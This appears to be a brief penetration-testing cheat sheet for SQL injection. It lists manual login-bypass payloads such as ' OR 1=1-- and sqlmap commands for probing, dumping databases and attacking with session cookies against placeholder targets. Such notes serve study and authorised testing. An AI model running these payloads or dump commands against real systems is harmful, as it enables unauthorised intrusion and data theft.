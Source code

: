 # SQL Injection (SQLi)

## Manual Test Payloads
' OR 1=1--
" OR 1=1--
') OR '1'='1
admin' --

## SQLMap (basic)

sqlmap -u "http://<TARGET_IP>/index.php?id=1" --batch
SQLMap (dump data)

sqlmap -u "http://<TARGET_IP>/product.php?id=5" --batch --dump
SQLMap with Auth Cookies

sqlmap -u "http://<TARGET_IP>/dashboard?id=2" --cookie="PHPSESSID=abc123" --batch
Identify DB Type

sqlmap -u "<URL>?id=1" --banner
